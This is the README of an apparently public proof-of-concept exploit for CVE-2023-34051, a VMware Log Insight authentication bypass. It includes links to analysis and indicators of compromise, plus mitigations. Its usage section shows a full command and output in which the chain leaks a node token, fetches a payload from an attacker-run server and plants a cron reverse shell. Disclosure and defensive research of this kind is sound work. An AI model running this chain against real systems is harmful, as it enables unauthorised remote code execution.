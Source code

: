 # CVE-2023-34051 
CVE-2023-34051 is an authentication bypass that bypasses the patch for VMSA-2023-0001.
VMSA-2023-0001 for vRealize Log Insight includes the following CVEs:
* VMware vRealize Log Insight Directory Traversal Vulnerability (CVE-2022-31706)
* VMware vRealize Log Insight broken access control Vulnerability (CVE-2022-31704)
* VMware vRealize Log Insight contains an Information Disclosure Vulnerability (CVE-2022-31711)

The default configuration of this vulnerability writes a cron job to create a
reverse shell. Be sure to change the `payload` file to suit your environment.

## Technical Analysis
A technical root cause analysis of the vulnerability can be found on our blog:
https://www.horizon3.ai/vmware-aria-operations-for-logs-cve-2023-34051-technical-deep-dive

## Indicators of Compromise
For analyzing Log Insight instances for indicators of compromise check out our IOC blog:
https://www.horizon3.ai/vmware-vrealize-cve-2022-31706-iocs/

## Summary
This POC abuses IP address spoofing and various Thrift RPC endpoints to achieve an arbitrary file write.

## Usage
```plaintext
$ python3 VMSA-2023-0001.py --target_address 192.168.4.133 --http_server_address 192.168.4.60 --http_server_port 8080 --payload_file payload --payload_path /etc/cron.d/exploit 
[+] Using CVE-2022-31711 to leak node token
[+] Found node token: f261d2f5-71fa-45fd-a0a0-6114a55a8fb8
[+] Using CVE-2022-31704 to trigger malicious file download
192.168.4.133 - - [30/Jan/2023 16:43:41] "GET /exploit.tar HTTP/1.1" 200 -
[+] File successfully downloaded
[+] Using CVE-2022-31706 to trigger directory traversal and write cron reverse shell
[+] Payload successfully delivered
```

## Troubleshooting
For this attack to work, an attacker must have the same IP address as a master /worker node. See blog above for more details.

If using a cron based payload, make sure the payload file has the appropriate
permissions and owner:
```shell
sudo chown root:root payload
```
```shell
sudo chmod 0644 payload 
```

## Mitigations
Update to the latest version or mitigate by following the instructions within the VMSA
https://www.vmware.com/security/advisories/VMSA-2023-0021.html

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

